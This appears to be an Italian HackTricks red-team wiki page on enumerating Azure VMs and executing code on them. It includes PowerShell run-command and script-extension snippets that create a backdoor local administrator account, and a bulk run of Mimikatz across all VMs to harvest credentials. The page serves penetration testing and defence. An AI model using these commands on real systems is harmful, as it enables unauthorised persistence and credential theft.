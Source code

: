 # Az - Macchine Virtuali e Rete

{% hint style="success" %}
Impara e pratica il Hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica il Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

## Informazioni di base

[Dal documento:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Le macchine virtuali Azure sono uno dei diversi tipi di [risorse di calcolo scalabili on-demand](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) che Azure offre. Tipicamente, scegli una macchina virtuale quando hai bisogno di maggiore controllo sull'ambiente di calcolo rispetto ad altre opzioni. Questo articolo ti fornisce informazioni su cosa dovresti considerare prima di creare una macchina virtuale, come crearla e come gestirla.

## Informazioni sulla rete Azure

Le reti Azure contengono **diverse entità e modi per configurarla.** Puoi trovare una breve **descrizione,** **esempi** e **comandi di enumerazione** delle diverse entità di rete Azure in:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** offre una soluzione sicura e completamente gestita per l'accesso RDP (Remote Desktop Protocol) e SSH (Secure Shell) tramite SSL attraverso il portale Azure. È integrato all'interno di una Rete Virtuale Azure, consentendo la connettività RDP e SSH alle VM utilizzando IP privati, evitando la necessità di IP pubblici. Questo lo rende un'alternativa più sicura e conveniente ai metodi tradizionali che coinvolgono assegnazioni di IP pubblici e configurazioni di regole NSG per l'accesso alle VM. Sviluppatori e personale IT possono accedere in modo sicuro alle VM dal portale Azure utilizzando i loro browser web, semplificando il processo per ambienti di sviluppo e test.

Per elencare tutti gli Azure Bastion Hosts nel tuo abbonamento, puoi utilizzare il seguente comando:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Enumerazione delle VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Esegui comandi in una VM**

### **Accesso AAD in VM**

È possibile consentire l'accesso agli utenti autenticati tramite AzureAD. Ad esempio, provando ad accedere a una **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (è importante **utilizzare l'email** con l'azurecorp usata quando si tenta di accedere) potresti ricevere un errore come: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Basta **seguire queste istruzioni** andando su [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) e indicando il codice, utilizzare l'email e la password come credenziali e sarai in grado di connetterti tramite SSH (se quell'utente ha abbastanza permessi per farlo: ruolo `Virtual Machine Administrator Login` o `Virtual Machine User Login`).

### **Esegui Comando**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Esegui Estensione Script Personalizzato**

Le estensioni delle macchine virtuali (VM) di Azure sono **piccole applicazioni** che forniscono configurazione post-deployment e **compiti** di automazione su **VM di Azure**. Ad esempio, se una macchina virtuale richiede l'installazione di software, protezione antivirus o la possibilità di eseguire uno script al suo interno, puoi utilizzare un'estensione VM.

Pertanto, se hai accesso per scriverlo, puoi eseguire codice arbitrario:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) è uno strumento PowerShell simile ad Ansible, utilizzato per configurare un host tramite codice. DSC si integra con Azure, consentendo il caricamento di file di configurazione specifici. Questi file devono aderire a una sintassi rigorosa. In particolare, l'estensione DSC in Azure può eseguire comandi da file che soddisfano determinati criteri di formattazione, anche se la sintassi non è corretta secondo gli standard DSC, come mostrato nella figura fornita.

L'esecuzione di questi comandi è facilitata dalla funzione [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) in Az PowerShell. I requisiti includono un file **.PS1** con una funzione definita e il file deve essere compresso in un file **.zip**. Anche se la sintassi potrebbe non essere accurata per DSC, il codice verrà comunque eseguito. Tuttavia, l'estensione segnerà lo stato di esecuzione come "errore" e nessun output del comando sarà visibile a causa dello stato sovrascritto dal messaggio di errore.

### VM Application Definitions

Le Definizioni di Applicazione VM consentono il deployment ripetibile di applicazioni versionate su una VM Azure. Questa risorsa supporta il deployment e l'aggiornamento delle applicazioni su più VM. Per configurarlo, sono necessari diversi passaggi, che coinvolgono comandi come **`New-AzGalleryApplication`** e **`New-AzGalleryApplicationVersion`** in Az PowerShell.

L'esecuzione di applicazioni o comandi tramite questo metodo coinvolge il **"VMAppExtension"**, che viene installato automaticamente quando un'applicazione viene applicata a una VM. L'estensione recupera il file dall'URI specificato e lo nomina esattamente come l'applicazione, senza un'estensione. Per eseguire correttamente il file, il campo "ManageActions" nella chiamata API REST deve essere configurato per rinominare il file con l'estensione appropriata. La configurazione di questo metodo, una volta completata, assomiglierà alla struttura mostrata nella figura fornita.

Tuttavia, questo metodo di esecuzione è relativamente lento, impiegando circa 3-4 minuti per eseguire un'applicazione o un comando. I file relativi a questo processo sono memorizzati in directory specifiche (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` per la copia dell'applicazione e `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` per lo stato di esecuzione).

Entrambe le tecniche forniscono modi unici per eseguire comandi e distribuire applicazioni negli ambienti Azure, ognuna con il proprio insieme di requisiti, passaggi e considerazioni.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) sono una funzionalità in Azure che consente l'esecuzione di Runbook, configurati in un'Automation Account, su una Macchina Virtuale (VM) Azure che fa parte del HWG designato. Questa esecuzione è facilitata tramite un'estensione installata sulla VM, che distribuisce il codice del Runbook sulla VM. Un aspetto significativo di questo processo è che le credenziali effettive non sono un fattore nell'esecuzione poiché il codice viene eseguito con privilegi elevati, specificamente come **SYSTEM** o root, come illustrato nella figura fornita.

Un dettaglio cruciale per coloro che utilizzano VM Windows 10 è la necessità di specificare la versione di PowerShell per il Runbook. Dovrebbe essere impostato per essere eseguito come PowerShell Version 5.1 invece di 7.1. Questo requisito deriva dal fatto che PowerShell 7.1 non è installato per impostazione predefinita su queste VM, portando a un errore nell'esecuzione dello script se viene specificata la versione 7.1.

Questa funzionalità di Azure offre un metodo robusto per automatizzare e gestire compiti in ambienti ibridi, consentendo una gestione centralizzata e l'esecuzione di compiti su VM Azure.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
